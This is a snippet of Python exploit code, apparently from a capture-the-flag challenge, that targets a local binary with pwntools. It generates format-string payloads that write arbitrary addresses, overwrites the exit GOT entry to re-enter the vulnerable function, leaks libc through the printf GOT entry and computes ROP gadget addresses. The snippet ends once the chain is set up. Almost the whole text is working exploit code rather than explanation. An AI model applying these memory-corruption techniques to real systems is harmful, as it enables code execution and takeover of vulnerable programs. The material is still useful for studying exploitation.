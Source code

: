 ```python
    buf = gen_multi_write_format_string(rsp_to_format_offset, init_position, values, prefix_string_size)

    position = 6 + int((rsp_to_format_offset + len(buf)) / 8)
    buf = gen_multi_write_format_string(rsp_to_format_offset, position, values, prefix_string_size)

    for address in addresses:
        buf += struct.pack('<Q', address)
        buf += struct.pack('<Q', address + 2)
        buf += struct.pack('<Q', address + 4)
        buf += struct.pack('<Q', address + 6) 

    print(f'fmt buf:{buf} len:{len(buf)}')
    
    return buf


def write_addr(p, payload_size, rsp_to_format_offset, address, value, prefix_string_size=0, extra_buffer=b'', debug=False):
    buf = write_addr_payload(rsp_to_format_offset, address, value, prefix_string_size, debug)
    buf += extra_buffer
    buf += (payload_size - len(buf)) * b'A'
    p.send(buf)
    p.recvuntil(b'Your input is:')

def write_addrs(p, payload_size, rsp_to_format_offset, addresses, values, prefix_string_size=0):
    '''
    This method writes to multiple addresses, within a single format string invocation.
    '''
    assert(len(addresses) == len(values))
    buf = write_addrs_payload(rsp_to_format_offset, addresses, values, prefix_string_size)
    buf += (payload_size - len(buf)) * b'A'
    p.send(buf)
    p.recvuntil(b'Your input is:')


def main(): 
    # p0 = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    p0 = process(BINARY)
    rsp_to_format_offset = 0x111
    prefix_string_size = 33
    environ_printf_offset = 0x15d0

    payload_size = 0x350

    # Phase 1
    # Overwrite exit's GOT, so we would have infinate invocations.
    # Keep in mind - we have to make sure $rsp remains valid - aligned to 0x10, before calling printf once again. Hence, we would jump to legitimate site - 'func'
    write_addr(p0, payload_size, rsp_to_format_offset, address=exit_got, value=binary_func_addr, prefix_string_size=prefix_string_size)

    # Phase 2
    # Leak libc
    libc_leak_addr = read_addr(p0, payload_size, rsp_to_format_offset, address=printf_got)
    libc_base = libc_leak_addr - libc_printf_offset
    print(f'libc_base: {hex(libc_base)}')
    assert(libc_base & 0xfffffffffffff000 == libc_base)
    chmod_addr = libc_base + libc_chmod_offset
    pop_rsp_ret = libc_base + pop_rsp_ret_offset
    pop_r13_ret_2 = libc_base + pop_r13_ret_offset_2
    pop_rdi_ret = libc_base + pop_rdi_ret_offset
    pop_rsi_ret = libc_base + pop_rsi_ret_offset
```